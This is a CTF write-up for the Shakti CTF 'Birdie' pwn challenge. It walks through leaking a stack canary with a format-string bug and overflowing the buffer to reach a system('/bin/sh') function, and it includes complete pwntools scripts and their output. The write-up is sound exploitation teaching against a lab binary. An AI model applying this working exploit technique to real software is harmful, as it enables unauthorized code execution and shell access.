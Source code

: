 _
--- 
layout: post 
title:  "[Shakti CTF] Birdie"
date: "2021-04-05" 
categories: PWN 
author: eurus 
---

For this challenge we have an elf file that has no PIE but has a stack canary.

```
┌──(pwn)(eurus㉿warfare)-[~/…/ShaktiCTF_TODO/my_writeup/shakti_ctf/Birdie]
└─$ python3 solver.py
[*] '/home/eurus/Documents/ShaktiCTF_TODO/my_writeup/shakti_ctf/Birdie/birdie'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

disassembling this elf we can see that we have a string format vulnerability and the possibility to make buffer overflow. And we can also see that we have a function that call ```system('/bin/sh')```. In order to win this challenge we need to redirect the flow of this binary to this function.

We can make a buffer overflow if we leak the canary on the stack. Fortunately with the format string vulnerability we can leak information from the binary during its execution.

```python
from pwn import *

elf = ELF('./birdie')
context.binary = elf

for i in range(1, 100):
    p = elf.process()
    p.recvuntil('Enter your name\n')
    p.sendline(f"%{i}$p")
    log.info(f"{i}:")
    leak = p.recvuntil('\n')
    log.info(leak)
    p.close()
```

I have write this little script in order to explore the stack and trying to find the exact position where the canary is.

```text
[*] 1:
[*] 0x7ffe1c4a8b70
[*] 2:
[*] 0x20
[*] 3:
[*] 0x7f69ca347e8e
[*] 4:
[*] 0x10
[*] 5:
[*] 0x7f488078e180
[*] 6:
[*] 0xf0b2ff
[*] 7:
[*] 0xc2
[*] 8:
[*] 0x1
[*] 9:
[*] 0x4008dd
[*] 10:
[*] 0xa7024303125
[*] 11:
[*] (nil)
[*] 12:
[*] 0x400890
[*] 13:
[*] 0x400690
[*] 14:
[*] 0x7ffe929cda80
[*] 15:
[*] 0xd6194b70fcac3700
[*] 16:
[*] 0x400890
[*] 17:
[*] 0x7fccfae1ed0a
[*] 18:
[*] 0x7ffc3a997f28
[*] 19:
[*] 0x100000000
[*] 20:
[*] 0x4007e2
```

with this dump of the stack (attenction, this is not the stack of one single execution, but every leak in an offset is an execution) we can see that the canary is at the offset 15.  So we can dump the stack value sending to the server the string: ```%15$p```.

Now that we have the canary value we theoretically can perform a buffer overflow. Using cyclic and gdb we can find that the offset to the canary in the execution is 72 bytes. So with this information I have wrote a script that redirect the execution of the program.

```python
elf = ELF('./birdie')
context.binary = elf


p = elf.process()
#gdb.attach(p, gdbscript = 'b *0x00000000004007E2')
#p = remote("34.121.211.139", 1111)

p.recvuntil('Enter your name\n')
p.sendline(f"%15$p")
leak = str(p.recvuntil('\n'))
c = leak.replace('b\'','').replace('\\n\'','')

log.info(c)

win = 0x0000000000400873
ret_gd = 0x000000000040060e
canary = int(c, 16)
log.info(str(hex(canary)))
payload = b'A'*72+p64(canary)+p64(0)+p64(ret_gd)+p64(win)

p.recvuntil('Enter the payload\n')
p.sendline(payload)
p.interactive()
```

Doing that we have a shell that permit us to get the flag!
